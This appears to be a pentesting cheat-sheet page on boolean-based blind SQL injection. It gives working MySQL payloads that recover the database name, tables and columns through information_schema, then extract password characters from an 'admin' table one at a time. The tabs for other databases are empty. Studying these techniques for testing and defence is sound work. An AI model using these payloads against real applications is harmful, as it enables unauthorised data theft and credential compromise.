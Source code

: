 # Boolean Based

## Theory

Boolean-based SQL injection is a technique that relies on sending an SQL query to the database based on which the technique forces the application to return different results.\
The result allows an attacker to judge whether the payload used returns true or false. Even though no data from the database are recovered, the results give the attacker valuable information. Depending on the boolean result (TRUE or FALSE), the content within the response will change, or remain the same.

## Practice

#### Getting database

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the database length:

```sql
1' AND (SELECT LENGTH(database()))=1-- -  #False  
1' AND (SELECT LENGTH(database()))=2-- -  #False
1' AND (SELECT LENGTH(database()))=3-- -  #True -> It means the length of database is 3 characters.
```

Second, retrieve the database name:

```sql
--True -> It means the first character is p. Note that ASCII code is in decimal
1' AND (SELECT HEX(SUBSTRING(database(), 1, 1)))=HEX('p')-- -
1' AND (SELECT ASCII(SUBSTRING(database(), 1, 1)))=112-- - 

--True -> It means the second character is w.
1' AND (SELECT HEX(SUBSTRING(database(), 2, 1)))=HEX('w')-- -

--True -> It means the third character is n.
1' AND (SELECT HEX(SUBSTRING(database(), 3, 1)))=HEX('n')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

####

#### Getting Tables

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of tables:

```sql
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2-- -  #True -> 2 tables
```

Second, retrieve length of each table

```sql
-- If True, the first table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=5-- - 

-- If True, the second table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=5-- - 
```

Third, retrieve name of each table

```sql
-- If True, the first char of the first table is u
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1))FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('u')-- -

-- If True, the second char of the first table is s
1'AND (SELECT HEX(SUBSTRING(table_name, 2, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('s')-- -

-- If True, the first char of the second table is p
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=HEX('p')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

####

#### Getting Columns

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of columns:

```sql
1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin')=2-- -  #True -> 2 columns
```

Second, retrieve length of each column

```sql
-- If True, the first column's name lenght is 3
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=3-- - 

-- If True, the second table's name lenght is 8
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 1,1)=8-- - 
```

Third, retrieve name of each column

```sql
-- If True, the first char of the first column is a
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=HEX('a')-- -

-- If True, the second char of the first column is b
1'AND (SELECT HEX(SUBSTRING(column_name, 2, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=HEX('b')-- -

-- If True, the first char of the second column is p
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 1,1)=HEX('p')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}



#### Dump values

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the lenght of the value (we take password column as example):

```sql
1' AND (SELECT LENGTH(password) FROM admin LIMIT 0,1)=9-- -  #True -> 1st password is 9 char
```

Second, retrieve values

```sql
-- If True, the first password's char is p
1'AND (SELECT HEX(SUBSTRING(password, 1, 1))FROM admin LIMIT 0,1)=HEX('p')-- -

-- If True, the second password's char is a
1'AND (SELECT HEX(SUBSTRING(password, 2, 1))FROM admin LIMIT 0,1)=HEX('a')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="https://defendtheweb.net/article/blind-sql-injection" %}
